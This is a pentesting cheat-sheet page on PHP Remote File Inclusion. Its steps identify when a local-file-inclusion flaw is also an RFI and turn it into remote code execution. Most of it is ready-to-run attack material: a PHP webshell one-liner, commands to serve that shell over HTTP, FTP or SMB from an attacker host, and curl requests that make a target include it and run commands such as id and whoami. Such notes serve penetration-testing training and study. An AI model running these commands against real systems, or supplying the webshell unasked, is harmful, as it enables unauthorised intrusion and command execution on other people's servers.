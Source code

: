 In the case that a function allows remote URLs but does not allow code execution, we can exploit the vulnerability to enumerate local ports through [SSRF](broken-reference).

### Identify

A reliable way to determine whether an LFI flaw is also an RFI one is to try and include a local URL (for ensuring that does not get blocked by security measures) and see if we can get its content.

```html
<!-- Requesting a local URL -->
/index.php?language=http://127.0.0.1:80/index.php
```

If the `index.php` page gets included and executed, i.e., rendered -> RFI + RCE.

### RCE

#### HTTP

{% code overflow="wrap" %}
```shell
# Creating a webshell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Serving the webshell via an HTTP server
sudo python3 -m http.server [80 | 443]
# RCE
curl http://<ip:port>/index.php?language=http://<attacker-ip:port>/shell.php&cmd=id
```
{% endcode %}

#### FTP

This may be useful in case HTTP ports are blocked or the `http://` string gets blocked by a WAF. By default, PHP tries to authenticate as an anonymous user.

{% code overflow="wrap" %}
```shell
# Serving the webshell via an FTP server
sudo python -m pyftpdlib -p 21
# RCE
curl http://<ip:port>/index.php?language=ftp://<attacker-ip>/shell.php&cmd=id
# If authentication is required
curl 'http://<ip:port>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```
{% endcode %}

#### SMB

Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path. This technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default.

```shell
# Serving the webshell via an SMB server
impacket-smbserver -smb2support share $(pwd)
# RCE
curl http://<ip:port>/index.php?language=\\<attacker-ip>\share\shell.php&cmd=whoami
```


[^1]: Remote File Inclusion